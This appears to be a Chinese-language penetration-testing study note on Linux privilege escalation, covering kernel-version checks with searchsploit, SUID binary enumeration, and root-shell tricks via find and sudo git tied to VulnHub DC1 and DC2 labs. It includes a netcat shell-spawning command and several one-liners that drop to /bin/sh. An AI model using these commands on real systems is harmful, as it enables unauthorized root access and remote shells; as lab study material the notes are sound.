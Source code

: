 # Linux提权

## 前言

提权本质：一方面是信息收集，另一方面是对内核漏洞的掌握情况

## 基础信息收集

```bash
suid命令提权查询：https://gtfobins.github.io/
```

## 提权操作

### 内核漏洞提权

1.查看发行版以及内核版本

```bash
cat /etc/issue
cat /etc/*-release

uname -a
```

2.kali查找漏洞

```
searchsploit linux 3.10 CentOS Linux 7
```

### SUID提权

suid全称是Set owner User ID up on execution。SUID 是一种特殊的文件属性，它允许用户执行的文件以该文件的拥有者的身份运行【ls 查看时有 s 属性才支持 SUID】

常见的可用来提权的linux可执行文件如下：

```
Nmap, Vim, find, bash, more, less, nano, cp
```

查看可以suid 提权的可执行文件(查看拥有suid权限的命令)

```
find / -perm -u=s -type f 2>/dev/null
find / -user root -perm -4000 -print 2>/dev/null
find / -user root -perm -4000 -exec ls -ldb {} ;
```


![image](../../ba-ji-shen-tou/vulnhub/img/vulnhub-dc1-13.png)

![image](img/vulnhub-dc1-13.png)

#### find提权

案例可见DC1的提权

```bash
find aaa - exec netcat -lvp 5555 -e /bin/sh \ # 反弹
find . -exec /bin/sh \; # 直接提权
```

#### Git提权

案例可见DC2的提权

https://gtfobins.github.io/gtfobins/git/

```
sudo -l

sudo git -p help config
!/bin/sh
```
## 参考文章

* https://wiki.xazlsec.com/project-9/doc-730/
* https://xz.aliyun.com/t/7924
* https://shng.fun/posts/2021-01-23-%E5%AD%A6%E4%B9%A0-Linux%E4%B8%AD%E5%B8%B8%E7%94%A8%E7%9A%84%E6%8F%90%E6%9D%83%E6%96%B9%E6%B3%95.html
* https://www.freebuf.com/articles/web/280398.html
* https://www.hacking8.com/tiquan/other/Linux%E6%8F%90%E6%9D%83.html
